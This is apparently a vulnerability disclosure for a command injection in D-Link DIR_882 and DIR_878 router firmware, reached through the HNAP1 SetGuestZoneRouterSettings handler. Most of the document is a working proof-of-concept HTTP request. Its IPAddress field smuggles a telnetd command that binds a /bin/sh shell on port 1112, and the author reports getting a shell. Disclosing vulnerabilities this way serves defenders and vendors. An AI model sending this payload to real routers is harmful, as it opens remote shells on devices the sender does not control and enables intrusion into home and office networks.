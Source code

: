 # D-Link Vulnerability

Vendor:D-Link

Product:DIR_882、DIR_878

Version:DIR_882_FW130B06、DIR_878_FW130B08

Type:Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in D-Link Technology router with firmware which was released recently. A command Injection vulnerability allows attackers to execute arbitrary OS commands via a crafted /HNAP1 POST request.

**Remote Command Execution**

In `prog.cgi` binary:

In `SetGuestZoneRouterSettings` function,`IPAddress` is directly passed by the attacker. After that, call the function nvram_safe_set to store this input.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

In `librcm.so` binary:

In `WLAN_guest_login_block` function, the initial input will be extracted. Eventually, the initial input will cause command injection.

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>



## PoC

We set `IPAddress` as **;telnetd -l /bin/sh -p 1112 -b 0.0.0.0;** , and the router will excute it,such as:

```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.100.1
Content-Length: 601
SOAPAction: "http://purenetworks.com/HNAP1/SetGuestZoneRouterSettings"
X-Requested-With: XMLHttpRequest
HNAP_AUTH: 4879EF7015C6DCD4CE883CE434CDD9C3 1727269971327
Accept: */*
Content-Type: text/xml; charset=UTF-8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Origin: http://192.168.100.1
Referer: http://192.168.100.1/UsbSharing.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: uid=ejuSWMGN
Connection: close

<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetGuestZoneRouterSettings xmlns="http://purenetworks.com/HNAP1/"><InternetAccessOnly>true</InternetAccessOnly><IPAddress>

;telnetd -l /bin/sh -p 1112 -b 0.0.0.0;

</IPAddress><SubnetMask></SubnetMask><DHCPServer>true</DHCPServer><DHCPRangeStart></DHCPRangeStart><DHCPRangeEnd></DHCPRangeEnd><DHCPLeaseTime>0</DHCPLeaseTime></SetGuestZoneRouterSettings></soap:Body></soap:Envelope>
```

<div  align="center"><img src="./images/3.png" style="zoom:100%;" /></div>



## Result

Get a shell!

<div  align="center"><img src="./images/4.png" style="zoom:100%;" /></div>
